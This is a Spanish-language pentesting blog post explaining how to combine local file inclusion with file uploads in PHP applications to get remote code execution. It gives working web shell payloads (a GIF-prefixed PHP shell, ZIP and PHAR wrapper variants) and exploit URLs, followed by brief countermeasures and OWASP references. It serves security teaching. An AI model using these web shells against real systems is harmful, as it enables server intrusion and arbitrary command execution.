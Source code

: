 ```yaml
---
title: LFI y Subida de Archivos
date: 2025-06-07 11:00:00 +0000
categories: [Web Security, Pentesting]
tags: [LFI, file-upload, php, web-shells, penetration-testing]
image: 
    path: /assets/img/posts/lfi-file-upload/lfi-banner.png 
    alt:  cabecera
description: >
  Explotando Vulnerabilidades de Inclusión Local
pin: false  
toc: true   
math: false 
mermaid: false 
---
```


La **inclusión local de archivos (LFI)** combinada con funcionalidades de subida de archivos representa una de las técnicas más efectivas para lograr **ejecución remota de código (RCE)** en aplicaciones web. En este post exploraremos diferentes métodos para explotar estas vulnerabilidades.

---

## Introducción a LFI y Subida de Archivos

Las funcionalidades de subida de archivos son omnipresentes en las aplicaciones web modernas, ya que los usuarios normalmente necesitan configurar sus perfiles y el uso de la aplicación web subiendo sus datos. Para los atacantes, la capacidad de almacenar archivos en el servidor back-end puede extender la explotación de muchas vulnerabilidades, como las vulnerabilidades de inclusión de archivos.

---

### Funciones Vulnerables por Lenguaje

Para que este ataque funcione, la función vulnerable debe tener capacidades de **ejecución de código**. Las siguientes funciones permiten ejecutar código con inclusión de archivos:

| Lenguaje | Función | Leer Contenido | Ejecutar | URL Remota |
|----------|---------|----------------|----------|------------|
| **PHP** | `include()/include_once()` | ✅ | ✅ | ✅ |
| **PHP** | `require()/require_once()` | ✅ | ✅ | ❌ |
| **NodeJS** | `res.render()` | ✅ | ✅ | ❌ |
| **Java** | `import` | ✅ | ✅ | ✅ |
| **.NET** | `include` | ✅ | ✅ | ✅ |

---

## Método 1: Subida de Imagen Maliciosa

### Creando la Imagen Maliciosa

El primer paso es crear una imagen maliciosa que contenga código PHP web shell pero que aún parezca y funcione como una imagen normal.

```bash
echo 'GIF8<?php system($_GET["cmd"]); ?>' > shell.gif
```

> **Nota:** Utilizamos una imagen GIF porque sus magic bytes son fácilmente tipeables (caracteres ASCII), mientras que otras extensiones tienen magic bytes en binario que necesitarían ser URL encoded.

### Subiendo el Archivo

Una vez creado nuestro archivo malicioso, necesitamos subirlo a la aplicación web. Típicamente esto se hace a través de formularios de perfil o configuración.

### Obteniendo la Ruta del Archivo

Después de subir nuestro archivo, necesitamos conocer la ruta donde se almacenó. En la mayoría de casos, especialmente con imágenes, podemos obtener acceso a nuestro archivo y conseguir su ruta desde su URL.

```html
<img src="/profile_images/shell.gif" class="profile-image" id="profile-image">
```

### Explotación

Con la ruta del archivo en mano, solo necesitamos incluir el archivo subido en la función vulnerable LFI:

```
http://target.com/vulnerable.php?file=./profile_images/shell.gif&cmd=id
```

---

## Método 2: Wrapper ZIP

### Creando el Archivo ZIP

Esta técnica utiliza los wrappers de PHP para ejecutar código PHP. Aunque este wrapper no está habilitado por defecto, puede funcionar en ciertos casos específicos.

```bash
echo '<?php system($_GET["cmd"]); ?>' > shell.php
zip shell.jpg shell.php
```

### Explotación con Wrapper ZIP

Una vez subido el archivo shell.jpg, podemos incluirlo usando el wrapper `zip://` y referenciar archivos dentro de él con `#`:

```
http://target.com/vulnerable.php?file=zip://./profile_images/shell.jpg%23shell.php&cmd=id
```

---

## Método 3: Wrapper PHAR

### Creando el Archivo PHAR

El wrapper `phar://` ofrece otra alternativa para lograr ejecución de código. Primero creamos un script PHP:

```php
<?php
$phar = new Phar('shell.phar');
$phar->startBuffering();
$phar->addFromString('shell.txt', '<?php system($_GET["cmd"]); ?>');
$phar->setStub('<?php __HALT_COMPILER(); ?>');
$phar->stopBuffering();
?>
```

### Compilación y Preparación

```bash
php --define phar.readonly=0 shell.php
mv shell.phar shell.jpg
```


### Explotación con PHAR

```
http://target.com/vulnerable.php?file=phar://./profile_images/shell.jpg/shell.txt&cmd=id
```

---

## Contramedidas y Prevención

### Validación Estricta
- Validar tanto la extensión como el contenido del archivo
- Implementar lista blanca de tipos MIME permitidos
- Verificar magic bytes de archivos

### Aislamiento de Archivos
- Almacenar archivos subidos fuera del directorio web
- Usar directorios con permisos restrictivos
- Implementar naming schemes aleatorios

### Sanitización de Entradas
- Validar y sanitizar todas las entradas del usuario
- Usar rutas absolutas en lugar de relativas
- Implementar controles de acceso adecuados

---

## Conclusiones

La combinación de vulnerabilidades LFI con funcionalidades de subida de archivos puede resultar en **ejecución remota de código**, incluso cuando la funcionalidad de subida no es vulnerable por sí misma. El **primer método** (imagen maliciosa) es el más confiable y debería funcionar en la mayoría de casos con la mayoría de frameworks web.

Los métodos de **ZIP** y **PHAR** deben considerarse como alternativas cuando el primer método no funciona, ya que requieren configuraciones específicas de PHP.

> **Importante:** Existe otro ataque LFI/uploads obsoleto que puede ocurrir si la subida de archivos está habilitada en las configuraciones de PHP y la página phpinfo() está expuesta. Sin embargo, este ataque no es muy común ya que tiene requisitos muy específicos (LFI + uploads habilitados + PHP antiguo + phpinfo() expuesto).

---

### Referencias

- [OWASP File Upload Cheat Sheet](https://cheatsheetseries.owasp.org/cheatsheets/File_Upload_Cheat_Sheet.html)
- [PHP Wrappers Documentation](https://www.php.net/manual/en/wrappers.php)
- [Local File Inclusion Techniques](https://owasp.org/www-project-web-security-testing-guide/v42/4-Web_Application_Security_Testing/07-Input_Validation_Testing/11.1-Testing_for_Local_File_Inclusion)